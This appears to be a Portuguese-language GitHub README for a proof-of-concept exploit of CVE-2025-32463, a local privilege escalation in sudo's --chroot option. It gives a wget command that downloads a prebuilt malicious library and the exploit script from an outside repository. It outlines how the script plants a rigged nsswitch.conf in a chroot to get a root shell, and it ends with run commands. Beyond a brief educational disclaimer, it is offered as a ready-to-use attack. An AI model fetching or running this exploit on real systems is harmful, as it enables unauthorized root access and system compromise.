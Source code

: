 # 🚨 CVE-2025-32463 - Local Privilege Escalation via Sudo `--chroot` 🚨

### 💣 Proof of Concept (PoC) Script by 4TH1L10

Este repositório contém uma **Proof of Concept** para explorar a vulnerabilidade **CVE-2025-32463** no `sudo`, que permite **escalonamento de privilégios locais** através da opção `--chroot`, em versões vulneráveis do `sudo`.


---
## Download 
`wget 'https://github.com/lucasathilio/Privesc/raw/refs/heads/main/CVE-2025-32463%20(no%20gcc)/libnss_woot1337.so.2' && wget 'https://raw.githubusercontent.com/lucasathilio/Privesc/refs/heads/main/CVE-2025-32463%20(no%20gcc)/poc-cve-2025-32463.sh'`

---


> ⚠️ **ATENÇÃO:** Este código é fornecido **exclusivamente para fins educacionais e de pesquisa**. O uso indevido pode violar políticas de uso e leis locais. O autor **não se responsabiliza** por quaisquer danos ou uso não autorizado.

---

## 🛠️ Descrição da Vulnerabilidade

- **ID:** CVE-2025-32463  
- **Tipo:** Escalonamento de Privilégios Locais (LPE)  
- **Score CVSS:** 9.3 (Crítico)  
- **Componentes afetados:** `sudo < 1.9.17p1`  
- **Condição:** Atacante com acesso local pode executar código arbitrário como root ao manipular o carregamento de bibliotecas com `--chroot`.

Mais detalhes:
- [NVD](https://nvd.nist.gov/vuln/detail/CVE-2025-32463)
- [Sudo Advisory](https://www.sudo.ws/security/advisories/chroot_bug/)

---

## 🧪 Como Funciona a PoC

Este script Bash realiza os seguintes passos:

1. Verifica se o `sudo` está instalado e qual é sua versão.
2. Compara com a versão corrigida (`1.9.17p1`).
3. Se vulnerável:
   - Compila uma **biblioteca maliciosa** (`libnss_woot1337.so.2`) que dá acesso root.
   - Prepara um ambiente `chroot` com um `nsswitch.conf` manipulado.
   - Executa o `sudo -R` para acionar a falha e obter uma **shell como root**.

---

## 📦 Requisitos

- `bash`
- `gcc`
- Permissões locais (usuário com acesso ao sudo mesmo sem estar no sudoers, dependendo da configuração)

---

## 🚀 Execução

```bash
chmod +x poc-cve-2025-32463.sh
./poc-cve-2025-32463.sh
```

---

## Demo
<p align="center">
  <img src="demo.gif" alt="Demonstração do exploit" />
</p>
